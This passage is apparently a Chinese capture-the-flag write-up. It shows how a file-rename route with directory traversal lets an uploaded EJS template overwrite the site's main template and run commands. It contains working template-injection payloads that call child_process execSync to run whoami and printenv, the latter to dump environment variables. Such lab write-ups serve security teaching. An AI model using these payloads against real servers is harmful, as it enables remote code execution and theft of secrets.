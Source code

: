 

这个路由会将uploads目录中的文件重命名

我们可以利用这个路由，通过目录穿越对任意文件进行移动和重命名

也就是说我们可以通过上传恶意的ejs到uploads目录，接着通过/rename路由将我们上传的恶意ejs文件覆写掉/路由的模板文件mortis.ejs实现RCE

eval.ejs

```
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    <div>
        <%= process.mainModule.require('child_process').execSync('whoami') %>
    </div>
</body>
</html>
```

将ejs上传

![image-20250206154845681](../assets/image-20250206154845681.png)

覆写原来的ejs

![image-20250206155252476](../assets/image-20250206155252476.png)

访问/

![image-20250206155341848](../assets/image-20250206155341848.png)

这题flag藏在环境变量里

payload:

```
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    <div>
        <%= process.mainModule.require('child_process').execSync('printenv') %>
    </div>
</body>
</html>
```





![image-20250206155810074](../assets/image-20250206155810074.png)

